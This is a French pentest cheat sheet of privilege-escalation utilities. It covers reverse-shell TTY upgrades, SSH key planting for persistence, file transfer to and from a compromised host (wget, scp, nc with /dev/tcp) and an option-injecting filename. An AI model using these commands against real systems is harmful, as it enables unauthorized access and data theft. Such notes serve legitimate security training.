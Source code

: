 ## Utilitaires

> Commandes et techniques utiles pour réaliser une élévation de privilèges

- **Beautify tty** :

  ```bash
  $ python3 -c 'import pty; pty.spawn("/bin/bash")'
  
  CRTL + z (pour background le process du reverse_shell)
  stty -a | head -n1 
  (regarder les rows et columns)
  
  $ stty raw -echo ; fg;
  $ export TERM=xterm-256color ; stty rows 59 columns 235 ; reset
  ```



- **Générer une paire de clés ssh à copier dans `.ssh/authorized_keys/id_rsa.pub`** :

  ```bash
  $ ssh-keygen -t rsa -b 2048 -f mykey
  $ ssh -i mykey <user>@<IP>
  
  # Les droits des dossiers sont très importants
  $ chmod 755 .ssh
  $ chmod 711 authorized_keys
  ```

  

- **Télécharger des fichiers à partir d'une machine pwned**:

  - *Via python3* :

  ```bash
  # Hôte
  $ cd /directory_you_want_to_dl_from
  $ python3 -m http.server 5655
  
  # Cible
  $ wget http://<host-ip>:5655/<file>
  ```

  - *Via SCP* (donc SSH, besoin d'avoir les identifiants de l'utilisateur courant et un serveur SSH fonctionnel sur l'hôte) :

  ```bash
  # Cible
  $ scp -p <fichier_local> <identifiant_SSH>@<IP>:/tmp/
  ```

  - *S'il n'y a pas wget/curl* :

  ```bash
  # Hôte
  $ nc -lvp 7878 < file
  
  # Cible
  $ bash -c "cat /dev/tcp/<IP>/7878 > file" 
  ```

  

- **Connexion à mysql avec des identifiants** :

  ```bash
  $ mysql -u <user> -p
  ```

  

- **Créer un fichier avec un nom contenant des caractères spéciaux :**

  ```bash
  $ touch -- <name_file_for_example (e.g. --preserve=mode)>
  ```

